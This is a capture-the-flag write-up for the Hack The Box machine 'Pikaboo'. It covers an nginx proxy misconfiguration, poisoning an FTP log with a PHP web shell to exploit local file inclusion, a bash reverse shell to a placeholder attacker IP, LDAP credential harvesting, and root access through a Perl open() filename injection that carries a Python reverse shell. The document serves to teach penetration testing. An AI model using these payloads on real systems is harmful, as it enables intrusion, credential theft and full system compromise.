

# Pikaboo

First as always, `nmap`

```
# Nmap 7.92 scan initiated Fri Sep 17 11:28:31 2021 as: nmap -vvv -p 21,22,80 -sCV -oA init 10.10.10.249
Nmap scan report for 10.10.10.249
Host is up, received syn-ack (0.27s latency).
Scanned at 2021-09-17 11:28:38 +07 for 19s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 17:e1:13:fe:66:6d:26:b6:90:68:d0:30:54:2e:e2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAgG6pLBPMmXneLGYurX9xbt6cE2IYdEN9J/ijCVrQbpUyVeTNWNoFnpB8+DIcppOtsJu0X3Iwpfb1eTmuop8q9nNlmyOcOTBHYOYLQwa+G4e90Bsku86ndqs+LU09sjqss5n3XdZoFqunNfZb7EirVVCgI80Lf8F+3XRRIX3ErqNrk2LiaQQY6fcAaNALaQy9ked7KydWDFYizO2dnu8ee2ncdXFMBeVDKGVfrlHAoRFoTmCEljCP1Vsjt69NDBudCGJBgU1MbItTF7DtbNQWGQmw8/9n9Jq8ic/YxOnIKRDDUuuWdE3sy2dPiw0ZVuG7V2GnkkMsGv0Qn3Uq9Qx7
|   256 92:86:54:f7:cc:5a:1a:15:fe:c6:09:cc:e5:7c:0d:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIJl6Z/XtGXJwSnO57P3CesJfRbmGNra4AuSSHCGUocKchdp3JnNE704lMnocAevDwi9HsAKARxCup18UpPHz+I=
|   256 f4:cd:6f:3b:19:9c:cf:33:c6:6d:a5:13:6a:61:01:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINyHVcrR4jjhBG5vZsvKRsKO4SnXj3GqeMtwvFSvd4B4
80/tcp open  http    syn-ack nginx 1.14.2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Pikaboo
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 17 11:28:57 2021 -- 1 IP address (1 host up) scanned in 26.12 seconds
```

Looking at the web page on port 80, we have a couple of PHP pages (`pokatdex.php` and `contact.php`) so we run `gobuster` with the PHP extension.

```sh
gobuster dir -u http://10.10.10.249/ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r

/index.php            (Status: 200) [Size: 6922]
/images               (Status: 403) [Size: 274]
/contact.php          (Status: 200) [Size: 3180]
/admin                (Status: 401) [Size: 456]
/admin.php            (Status: 403) [Size: 274]
/administration       (Status: 401) [Size: 456]
/administration.php   (Status: 401) [Size: 456]
/administrator        (Status: 401) [Size: 456]
/administrator.php    (Status: 401) [Size: 456]
/administr8.php       (Status: 401) [Size: 456]
/administr8           (Status: 401) [Size: 456]
/administrative.php   (Status: 401) [Size: 456]
/administrative       (Status: 401) [Size: 456]
/administratie        (Status: 401) [Size: 456]
/administratie.php    (Status: 401) [Size: 456]
/admins               (Status: 401) [Size: 456]
/admins.php           (Status: 401) [Size: 456]
/admin_images         (Status: 401) [Size: 456]
/admin_images.php     (Status: 401) [Size: 456]
/administrivia.php    (Status: 401) [Size: 456]
/administrivia        (Status: 401) [Size: 456]
/administrative-law   (Status: 401) [Size: 456]
/administrative-law.php (Status: 401) [Size: 456]
/administrators       (Status: 401) [Size: 456]
/administrators.php   (Status: 401) [Size: 456]
/admin1.php           (Status: 401) [Size: 456]
/admin1               (Status: 401) [Size: 456]
/administer           (Status: 401) [Size: 456]
/administer.php       (Status: 401) [Size: 456]
/admin3_gtpointup     (Status: 401) [Size: 456]
/admin3_gtpointup.php (Status: 401) [Size: 456]
/admin_hp.php         (Status: 401) [Size: 456]
/admin_hp             (Status: 401) [Size: 456]
/admin25              (Status: 401) [Size: 456]
/admin25.php          (Status: 401) [Size: 456]
/admin02              (Status: 401) [Size: 456]
/admin02.php          (Status: 401) [Size: 456]
/administrationinfo   (Status: 401) [Size: 456]
/administrationinfo.php (Status: 401) [Size: 456]
/admin_thumb          (Status: 401) [Size: 456]
/admin_full           (Status: 401) [Size: 456]
/admin_thumb.php      (Status: 401) [Size: 456]
/admin_full.php       (Status: 401) [Size: 456]
/admin_functions      (Status: 401) [Size: 456]
/admin_functions.php  (Status: 401) [Size: 456]
/admin2               (Status: 401) [Size: 456]
/admin2.php           (Status: 401) [Size: 456]
/adminhelp            (Status: 401) [Size: 456]
/adminhelp.php        (Status: 401) [Size: 456]
/administratoraccounts (Status: 401) [Size: 456]
/administratoraccounts.php (Status: 401) [Size: 456]
/adminoffice          (Status: 401) [Size: 456]
/adminoffice.php      (Status: 401) [Size: 456]
/administracja        (Status: 401) [Size: 456]
/administracja.php    (Status: 401) [Size: 456]
```

The page `/contact.php` has a form but doesn't actually do anything. Pages whose names start with "admin" (besides `admin.php`) prompt us for credentials, while `/admin.php` just gives us a 404 Forbidden. We should now keep a lookout for credentials.

Looking at the admin pages, when we click "cancel" on the credential prompts, besides the usual "Unauthorized" message, we have an interesting line.

```
Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 81
```

The web server is being hosted on port 81 internally and something's standing between us and the internal page, such as a proxy. What's unusual here is that port 81 is being used instead of the usual 80. From the `nmap` scan, however, we can see that we're unable to connect to that port directly right now. Additionally, we see that we're running Apache 2.4.38, for which we don't have a working exploit.

Looking at the source code for `pokatdex.php`, we see links like `pokeapi.php?id=1`. Going to those links, however, just give us "PokeAPI Integration - Coming soon!". In fact, just about any value of `id` will give that message. Checking the technologies used with something like the Wappalyzer plugin shows that we're using nginx 1.14.2. Since we know that the web server is Apache and that there's something like a proxy in between, we can assume that nginx is acting as a reverse proxy between us and the Apache server on port 81. With that in mind, we look for nginx proxy misconfigurations.

Looking up "nginx misconfigurations", we find [this article](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/). Following that, we find that the server has the "off by slash" vulnerability which we can test by going to `/admin../`. I then fuzz for files and directories.

```sh
$ gobuster dir -u http://10.10.10.249/admin../ -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r

/admin                (Status: 401) [Size: 456]
/server-status        (Status: 200) [Size: 10009]
```

Visiting `server-status`, we see requests made to the server.



Among those URLs, `admin_staging/index.php` is interesting as it's an admin page. Additionally, we see the parameter `page` in the URL, suggesting we might have LFI. Also in `server-status`, we see that we can view `/var/log/vsftpd.log`. With a log file being included, we can try poisoning the log file to get code execution.

When logging into FTP, we give a username. Searching for the username in the log file, we see that it's reflected on the page. We can try putting some PHP code in place of the username.

```sh
$ ftp 10.10.10.249;
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:user): <?php system($_GET["cmd"]);?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed.
```

We can then visit the page, include the log, and provide a command for the `cmd` parameter to get code execution. I used the following URL encoded payload. (`/usr/bin/bash` instead of `/bin/bash`, checked with `which bash`)

```sh
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/ATK_IP/1337 0>&1"
```

We should then have a shell as `www-data`.

Checking listening ports, we see port 389.

```sh
www-data@pikaboo:/var/www/html$ ss -tlnp
State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port
LISTEN  0       128          127.0.0.1:389         0.0.0.0:*
LISTEN  0       128            0.0.0.0:80          0.0.0.0:*     users:(("nginx",pid=533,fd=6),("nginx",pid=531,fd=6))
LISTEN  0       128          127.0.0.1:81          0.0.0.0:*
LISTEN  0       128            0.0.0.0:22          0.0.0.0:*
LISTEN  0       128               [::]:80             [::]:*     users:(("nginx",pid=533,fd=7),("nginx",pid=531,fd=7))
LISTEN  0       32                   *:21                *:*
LISTEN  0       128               [::]:22             [::]:*

www-data@pikaboo:/var/www/html$ ps aux | grep -i ldap
www-data 16260  0.0  0.0   6276   888 pts/0    S+   08:50   0:00 grep -i ldap
```

Port 389 is the default port for LDAP so we checked running services and confirmed that we have LDAP running. Following [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-ldap#ldapsearch), we need to find some information to query LDAP.

Looking around in `/opt`, we have LDAP configurations in `/opt/pokeapi/config/settings.py`

```python
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```

Checking `/etc/hosts`, we have domain names.

```sh
www-data@pikaboo:/opt/pokeapi/config$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	pikaboo.htb	pikaboo

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With all the parameters, we can now query ldap with `ldapsearch`

```sh
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -b 'dc=pikaboo,dc=htb'
[snip]
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

# binduser, users, pikaboo.htb
dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw==
```

We have some base64-encoded credentials. Only the password for `ftp.pikaboo.htb` is new to us though. With the password, we can now log into FTP as "pwnmeow". We can't use it to log into SSH or `su` into pwnmeow though. We can't seem do download anything from or upload files to `/` but we can upload in the subdirectories, so we just make note of it for later.

Looking at cron jobs ...

```sh
www-data@pikaboo:/opt/pokeapi/config$ cat /etc/cron*
[snip]
* * * * * root /usr/local/bin/csvupdate_cron
```

We find an executable running as root every minute. Checking the file ...

```sh
www-data@pikaboo:/opt/pokeapi/config$ cat /usr/local/bin/csvupdate_cron
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

... we see that it's a bash script running `/usr/local/bin/csvupdate` on csv files in `/srv/ftp/*`. Looking at `/usr/local/bin/csvupdate` ...

```perl
#!/usr/bin/perl

##################################################################
# Script for upgrading PokeAPI CSV files with FTP-uploaded data. #
#                                                                #
# Usage:                                                         #
# ./csvupdate <type> <file(s)>                                   #
#                                                                #
# Arguments:                                                     #
# - type: PokeAPI CSV file type                                  #
#         (must have the correct number of fields)               #
# - file(s): list of files containing CSV data                   #
##################################################################

use strict;
use warnings;
use Text::CSV;

my $csv_dir = "/opt/pokeapi/data/v2/csv";

my %csv_fields = (
  # ...
);

if($#ARGV < 1)
{
  die "Usage: $0 <type> <file(s)>\n";
}

my $type = $ARGV[0];
if(!exists $csv_fields{$type})
{
  die "Unrecognised CSV data type: $type.\n";
}

my $csv = Text::CSV->new({ sep_char => ',' });

my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

... we see that it's a perl script. I don't know perl and reading through the code doesn't tell me what problem there might be in the code so I looked up "common perl vulnerabilities" and found [this article](https://www.cgisecurity.com/lib/sips.html) where the `open()` function used in the script is described as dangerous. To get command execution, we need to create a file whose name starts with `|`, ends with `.csv`, and has our code to be executed in the middle.

```sh
# on your machine
touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"YOUR_IP\",YOUR_PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';echo .csv"
nc -lnvp 1337

# in FTP
put *
```

After some time, we should have a shell as root on the machine.
